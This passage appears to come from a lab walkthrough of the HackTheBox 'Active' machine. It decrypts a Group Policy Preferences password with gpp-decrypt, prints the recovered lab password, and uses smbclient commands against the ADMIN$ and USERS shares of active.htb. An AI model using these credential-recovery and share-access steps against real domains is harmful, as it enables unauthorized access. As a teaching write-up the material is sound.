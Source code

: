There’s a simple ruby program known as gpp-decrypt that uses the publicly disclosed key to decrypt any given GPP encrypted string. This program is included with the default installation of Kali.

Let’s use it to decrypt the password we found.

```text
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

We get back the plaintext password.

```text
GPPstillStandingStrong2k18
```

From the Groups.xml file, we know that the username is SVG\_TGS. This probably is not the admin user, but regardless let’s try to access the ADMIN$ share with the username/password we found.

```text
smbclient -W active.htb -U SVC_TGS //active.htb/ADMIN$
```

* **-W**: domain
* **-U**: username

Nope, that doesn’t work.

![](../images/max/852/1*9dTnm8wTa5tL1TQQb31Peg.png)

Let’s try the USERS share.

```text
smbclient -W active.htb -U SVC_TGS //active.htb/USERS
```

We’re in!

![](../images/max/829/1*JRRcwJ8IAmSCH_e3wiJNIg.png)
